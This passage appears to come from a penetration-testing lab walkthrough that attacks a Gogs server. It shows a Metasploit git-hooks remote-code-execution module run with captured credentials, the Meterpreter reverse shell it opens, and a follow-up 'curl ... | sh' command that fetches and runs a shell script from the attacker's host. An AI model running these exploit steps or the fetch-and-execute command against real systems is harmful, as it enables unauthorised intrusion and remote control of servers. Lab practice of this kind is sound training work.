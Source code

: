 ```
```

Now after running it we get a shell

```
msf6 exploit(multi/http/gogs_git_hooks_rce) > run

[*] Started reverse TCP handler on 192.168.45.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Gogs found
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Authenticate with "jane/svc-dev2022@@@!;P;4SSw0Rd"
[+] Logged in
[*] Create repository "Zontrax_Bitchip"
[+] Repository created
[*] Setup post-receive hook with command
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[+] File created, shell incoming...
[*] Sending stage (3020772 bytes) to 192.168.153.224
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Meterpreter session 1 opened (192.168.45.5:4444 -> 192.168.153.224:48626) at 2023-01-26 00:46:08 +0100
[*] Cleaning up
[*] Repository Zontrax_Bitchip deleted.

meterpreter > getuid
Server username: jane
meterpreter > 
```

Alright then i'll get a more stable shell i don't like working from msf on linux box 🙂

```
meterpreter > shell
Process 6306 created.
Channel 1 created.
id
uid=1000(jane) gid=1000(jane) groups=1000(jane)
cd /tmp
ls
snap.lxd
systemd-private-3a9c4738b2fd4b3284401a4f70b06797-ModemManager.service-rqDLui
systemd-private-3a9c4738b2fd4b3284401a4f70b06797-systemd-logind.service-YDqcQf
systemd-private-3a9c4738b2fd4b3284401a4f70b06797-systemd-resolved.service-wURusi
systemd-private-3a9c4738b2fd4b3284401a4f70b06797-systemd-timesyncd.service-JHB7xh
vmware-root_750-2957714542
which curl
/usr/bin/curl
curl 192.168.45.5/shell.sh|sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   248  100   248    0     0    379      0 --:--:-- --:--:-- --:--:--   378

```
